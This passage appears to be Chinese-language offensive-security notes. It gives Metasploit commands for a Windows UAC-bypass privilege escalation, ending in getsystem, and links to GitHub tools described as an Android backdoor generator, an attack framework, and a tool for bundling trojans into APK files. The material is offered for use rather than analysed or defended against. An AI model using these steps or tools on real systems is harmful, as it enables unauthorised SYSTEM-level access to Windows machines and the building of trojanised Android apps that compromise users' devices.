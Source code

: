 

#### UAC绕过提权（成功概率不高）：

```
use exploit/windows/local/bypassuac # (多用来进攻32位系统)
show options
set SESSION 1
exploit 开始攻击
# 如果攻击成功，会给你一个新的session号
# 进入新的session号
getuid
getsystem
```



## github相关工具使用

kali的root权限下利用msf：

安卓相关

https://github.com/Screetsec/TheFatRat

后门生成器



https://github.com/M4sc3r4n0/Evil-Droid

攻击框架



https://github.com/jbreed/apkinjector

捆绑安卓木马apk


